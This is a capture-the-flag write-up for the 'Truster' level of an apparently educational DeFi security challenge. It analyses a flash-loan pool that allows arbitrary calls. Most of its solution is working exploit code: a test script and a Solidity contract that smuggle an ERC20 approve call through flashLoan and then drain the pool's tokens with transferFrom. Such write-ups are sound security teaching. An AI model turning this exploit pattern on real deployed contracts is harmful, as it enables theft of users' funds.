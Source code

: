 # Truster

## Analysis

flashLoan is a non re-entrant function. The function allows an arbitrary call. This may imply the function may be tricked into doing something interesting. The goal of the challenge is to drain the pool of tokens. Flash loans can exist for ether or tokens. 

Research questions:
Q: What are the invariant that must hold for funds/tokens to leave a contract?
A: function calls transfer and transferFrom() allow the movement of ERC20 tokens. 

The flashloan function sends the tokens to a borrower account and calls an arbitrary target contract. This means, the borrower account and target function may be different. Are there any implications if they are different. 

## Problem

Arbitrary call target during flash loan.

## Solution

```js

// truster.challenge.js

it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE  */
    // deploy the contract
    const ExploitReceiver = await ethers.getContractFactory('ExploitReceiver', attacker);
    this.attackerContract = await ExploitReceiver.deploy(this.token.address, this.pool.address);

    //Attack
    console.log(
        'Receiver balance before attacking: ',
        String(await this.token.balanceOf(attacker.address))
    );
    console.log(
        "Exploit balance before attacking: ",
        String(await this.token.balanceOf(this.attackerContract.address))
    );

    await this.attackerContract.connect(attacker);
    await this.attackerContract.exploit(attacker.address);

    console.log(
        "Receiver balance after attacking: ",
        String(await this.token.balanceOf(attacker.address))
    );
    console.log(
        "Exploit balance after attacking: ",
        String(await this.token.balanceOf(this.attackerContract.address))
    );
});

```
ExploitReceiver smart contract
```sol
// SPDX-License-Identifier: MIT
// ExploitReceiver.sol

pragma solidity ^0.8.0;

import "../truster/TrusterLenderPool.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";


contract ExploitReceiver {
    using Address for address;

    // Receiver needs to know the pool it is receiving from
    TrusterLenderPool private immutable pool;
    IERC20 private immutable dvt;

    // attacker
    address private immutable owner;

    constructor(address payable dvtAddress, address payable poolAddress) {
        pool = TrusterLenderPool(poolAddress);
        dvt = IERC20(dvtAddress);
        owner = msg.sender;
    }

    // arbitrary function
    //https://swcregistry.io/docs/SWC-104
    function exploit(address attacker) public payable {

        require(attacker == owner);

        // prepare a call for the approve function
        // nospace in parameter stuff for signature
        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)",
            // this contract address is related to the attacker/owner
            address(this),
            dvt.balanceOf(address(pool)));

        // interact with the pool, calling the flashLoan will cause
        // the dvtToken approve to be called for our contract address
        pool.flashLoan(0, owner, address(dvt), data);

        // initiate the transfer from pool to attacker address
        dvt.transferFrom(address(pool), attacker, dvt.balanceOf(address(pool)));

    }
}
```

## Explanation

```
Objective
1. Drain the tokens TrusterLenderPool.sol contract
  a. Call an arbitrary function in an arbitrary receiver contract
  b. Arbitrary function will be the tokens approve function
  c. So that we can transfer out of the pool outside the flashLoan functionality
```

Resources
1. https://medium.com/@juanxaviervalverde/damn-vulnerable-defi-truster-level-3-solution-3a08d34ad07b

2. https://consensys.github.io/smart-contract-best-practices/development-recommendations/general/external-calls/